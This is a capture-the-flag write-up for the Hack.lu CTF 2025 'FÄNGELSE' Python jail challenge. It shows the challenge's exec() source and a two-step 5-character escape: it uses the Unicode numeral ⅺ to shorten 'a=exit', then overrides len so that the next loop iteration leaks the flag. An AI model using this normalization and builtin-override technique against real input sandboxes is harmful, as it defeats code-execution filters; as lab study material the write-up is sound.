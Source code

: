 # Hack.lu CTF 2025 FÄNGELSE

```python
flagbuf = open("flag.txt", "r").read()

while True:
    try:
        print(f"Side-channel: {len(flagbuf) ^ 0x1337}")
    # Just in case..
    except Exception as e:
        # print(f"Error: {e}") # don't want to leak anything
        exit(1337)
    code = input("Code: ")
    if len(code) > 5:
        print("nah")
        continue
    exec(code)
```

Requirements:

1. No more than 5 characters: use `exit(flagbuf)` to leak flag, use `a=exit;len=a` to override function in two steps, use `ⅺ` for `xi` to break the length limitation

Solution by @moritz on Discord:

```shell
$ xn--fngelse-5wa.solven.jetzt 1024
Side-channel: 4890
Code: a=eⅺt
Side-channel: 4890
Code: len=a
flag{1_2_3_4_5_6_7_8_9_10_exploit!_12_13_...}
```

The length of `a=exit` is 6, but using [`ⅺ` (Unicode U+217A)](https://www.compart.com/en/unicode/U+217A) reduces it to 5. Then, `exit(flagbuf)` is called to print the flag.
